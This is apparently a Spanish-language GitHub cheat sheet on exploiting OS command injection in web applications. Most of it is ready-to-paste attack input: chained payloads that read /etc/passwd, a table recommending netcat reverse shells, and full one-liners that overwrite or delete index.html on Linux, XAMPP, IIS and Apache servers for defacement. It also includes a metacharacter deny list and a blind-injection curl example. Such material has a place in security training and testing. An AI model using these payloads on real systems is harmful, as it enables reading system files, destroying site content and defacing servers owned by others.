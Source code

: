 # Fz3r0 OWASP 💀🐝 - Command Injection 💉

## 💀 ¿Cómo explotar vulnerabilidad CMDI?

Una vez que se encontró la vulnerabilidad `in-band` o `blind` se procede a explotar de las siguientes maneras: 

## 💣 `In-Band CMDI: exploitation`

1. 💥 Utilizar `shell metacharacters` como [payload](https://github.com/Fz3r0/Fz3r0_-_Command_Injection/blob/main/12_Fz3r0_CMDI_-_Payloads/Command_Injection_Payloads.md) inicial:

````py
## General deny list to be included for command injection:
| ; & $ > < ' \ ! >> #

## Escape or filter special characters for --->>> Windows
( ) < > & * ‘ | = ? ; [ ] ^ ~ ! . " % @ / \ : + , `

## Escape or filter special characters for --->>> Linux
{ } ( ) > < & * ‘ | = ? ; [ ] $ – # ~ ! . " %  / \ : + , `

````

2. 💥 **Concatenar** comandos:

````py
## Concatena 127.0.0.1 + cat /etc/passwd + (concatena lo que sigue en el comando original con un &)

### Opción 1:
127.0.0.1 && cat /etc/passwd &

### Opción 2:
127.0.0.1 & cat /etc/passwd &

### Opción 3:
127.0.0.1 || cat /etc/passwd &

### Opción 4:
127.0.0.1 | cat /etc/passwd &

### Opción 4:
127.0.0.1 | cat /etc/passwd &

.
.
.

etc

````

### Ejemplos de payloads:

- `Linux`:

| **Payload** | **Descripción**                                                                                                                                                                                                                       |   |
|-------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|---|
| whoami      | Muestra el usuario bajo el cual se está ejecutando la aplicación.                                                                                                                                                                     |   |
| ls          | Lista el contenido del directorio actual. Puedes encontrar archivos como configuraciones, tokens y claves de aplicaciones, y muchas otras cosas valiosas.                                                                             |   |
| ping        | Este comando provocará que la aplicación se quede colgada. Útil para probar una aplicación en busca de una inyección de comandos a ciegas.                                                                                            |   |
| sleep       | Otro payload útil para probar una aplicación en busca de una inyección de comandos a ciegas, especialmente si la máquina no tiene instalado el comando ping.                                                                          |   |
| nc          | Netcat se puede usar para generar una shell inversa en la aplicación vulnerable. Puedes utilizar este punto de apoyo para moverte por la máquina objetivo y buscar otros servicios, archivos o posibles formas de elevar privilegios. |   |

- `Windows`:

| **Payload** | **Descripción**                                                                                                                                                                                                                       |   |
|-------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|---|
| whoami      | Muestra el usuario bajo el cual se está ejecutando la aplicación.                                                                                                                                                                     |   |
| dir         | Lista el contenido del directorio actual. Puedes encontrar archivos como configuraciones, tokens y claves de aplicaciones, y muchas otras cosas valiosas.                                                                             |   |
| ping        | Este comando provocará que la aplicación se quede colgada. Útil para probar una aplicación en busca de una inyección de comandos a ciegas.                                                                                            |   |
| timeout     | Este comando también provocará que la aplicación se quede colgada. Es útil para probar una aplicación en busca de una inyección de comandos a ciegas si el comando ping no está instalado.                                            |   |
| nc          | Netcat se puede usar para generar una shell inversa en la aplicación vulnerable. Puedes utilizar este punto de apoyo para moverte por la máquina objetivo y buscar otros servicios, archivos o posibles formas de elevar privilegios. |   | 

Algo un poco mas complejo como un `defacement` se podría ver algo así:

1. Buscar por algún archivo con la extensión `*.html` / buscar directamente por el `*.index.html` / mapear directorio default para hosting de página. 

````sh
# Ejemplo 1
127.0.0.1 ; find / -type f -name "*.html" &

# Ejemplo 2
127.0.0.1 ; ls /var/www/ &

````

2. Crear un nuevo `index.html` con el defacement utilizando un `one-liner`, el original se guarda en un backup `.bak`:

````sh
127.0.0.1 ; cp /var/www/html/index.html /var/www/html/index.bak && echo "Hola mundo, soy Fz3r0" > /var/www/html/index.html &

````

O algo todavía más complejo, esto ya es un código HTML para un buen defacement _(aquí borramos la página original sin guardar backup, solo por chingar)_:

- **`Linux`:**

````sh
127.0.0.1 ; rm /var/www/html/index.html && echo '<!DOCTYPE html><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el titulo Fz3r0</h1><h2>Este es el titulo 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html>' > /var/www/html/index.html &

````

- **`Windows`:**

````cmd
## XAMPP copiando original:
127.0.0.1 & ren C:\xampp\htdocs\index.html index.bak & copy NUL C:\xampp\htdocs\index.html & echo ^<!DOCTYPE html^><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el título Fz3r0</h1><h2>Este es el título 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html> > C:\xampp\htdocs\index.html &

## XAMPP borrando original:
127.0.0.1 & copy NUL C:\xampp\htdocs\index.html & echo ^<!DOCTYPE html^><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el título Fz3r0</h1><h2>Este es el título 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html> > C:\xampp\htdocs\index.html &

## IIS borrando original:
127.0.0.1 & copy NUL C:\inetpub\wwwroot\index.html & echo ^<!DOCTYPE html^><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el título Fz3r0</h1><h2>Este es el título 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html> > C:\inetpub\wwwroot\index.html &

## Apache copiando original:
127.0.0.1 & ren C:\mi_apache\www\index.html index.bak & copy NUL C:\mi_apache\www\index.html & echo ^<!DOCTYPE html^><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el título Fz3r0</h1><h2>Este es el título 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html> > C:\mi_apache\www\index.html &

````

## 💣 `Out-Of-Band AKA "Blind" CMDI: exploitation`

La inyección de comandos a ciegas o `blind`, ocurre cuando se produce una inyección de comandos; sin embargo, no hay una salida visible, por lo que no es inmediatamente detectable. Por ejemplo, se ejecuta un comando, pero la aplicación web no muestra ningún mensaje.

Para este tipo de inyección de comandos, necesitaremos utilizar payloads que causen cierto retraso en el tiempo. Por ejemplo, los comandos `ping` y `sleep` son payloads que normalmente se utilizan para probar. 

- Usando `ping` como ejemplo, la aplicación se quedará colgada durante x segundos en relación con la cantidad de pings que hayas especificado.

Otro método para detectar la inyección de comandos a ciegas es forzando alguna salida o `output`. Esto se puede lograr utilizando operadores de redirección como `>` de Linux. 

- Por ejemplo, podemos indicarle a la aplicación web que ejecute comandos como `whoami` y redireccionarlos a un archivo.
- Luego, podemos utilizar un comando como `cat` para leer el contenido de este archivo recién creado.
- El comando `curl` es una excelente manera de probar la inyección de comandos. Esto se debe a que puedes usar `curl` para enviar y recibir datos desde una aplicación en tu payload.
- Probar la inyección de comandos de esta manera a menudo es complicado y requiere bastante experimentación, especialmente porque la sintaxis de los comandos varía entre `Linux` y `Windows`.

Por ejemplo, un payload simple de curl a una aplicación es posible para la inyección de comandos como el siguiente:

````sh
curl http://vulnerable.app/process.php%3Fsearch%3DThe%20Beatles%3B%20whoami
````

## 📖 Recursos

- [Port Swigger - Command Injection](https://portswigger.net/web-security/os-command-injection)
- [OWASP - Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [OWASP - Command Injection Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [OWASP - Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)
- [Udemy - Rana Khalil | Command Injection ](https://www.udemy.com/course/mastering-command-injection-the-ultimate-hands-on-course/learn/lecture/39297722#overview)
